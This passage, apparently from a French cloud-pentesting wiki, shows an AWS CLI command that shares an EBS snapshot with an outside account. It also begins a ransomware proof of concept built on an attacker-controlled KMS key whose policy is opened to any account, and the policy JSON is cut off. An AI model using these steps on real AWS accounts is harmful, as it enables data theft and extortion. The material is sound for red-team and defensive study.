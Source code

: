 ### Partager un EBS Snapshot
```bash
aws ec2 modify-snapshot-attribute --snapshot-id <snapshot_ID> --create-volume-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
### EBS Ransomware PoC

Une preuve de concept similaire à la démonstration de Ransomware présentée dans les notes de post-exploitation S3. KMS devrait être rebaptisé RMS pour Ransomware Management Service, tant il est facile à utiliser pour chiffrer divers services AWS.

D'abord, depuis un compte AWS 'attacker', créez une customer managed key dans KMS. Dans cet exemple nous laisserons AWS gérer les données de clé pour moi, mais dans un scénario réaliste un acteur malveillant conserverait les données de clé en dehors du contrôle d'AWS. Modifiez la key policy pour permettre à n'importe quel Principal de compte AWS d'utiliser la clé. Pour cette key policy, le nom du compte était 'AttackSim' et la règle de policy autorisant tout accès s'appelle 'Outside Encryption'
```
{
"Version": "2012-10-17",
"Id": "key-consolepolicy-3",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::[Your AWS Account Id]:root"
},
"Action": "kms:*",
"Resource": "*"
},
{
"Sid": "Allow access for Key Administrators",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::[Your AWS Account Id]:user/AttackSim"
},
"Action": [
"kms:Create*",
"kms:Describe*",
"kms:Enable*",
"kms:List*",
"kms:Put*",
"kms:Update*",
"kms:Revoke*",
"kms:Disable*",
"kms:Get*",
"kms:Delete*",
"kms:TagResource",
"kms:UntagResource",
"kms:ScheduleKeyDeletion",
"kms:CancelKeyDeletion"
],
"Resource": "*"
},
{
"Sid": "Allow use of the key",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::[Your AWS Account Id]:user/AttackSim"
},
"Action": [
"kms:Encrypt",
"kms:Decrypt",
"kms:ReEncrypt*",
```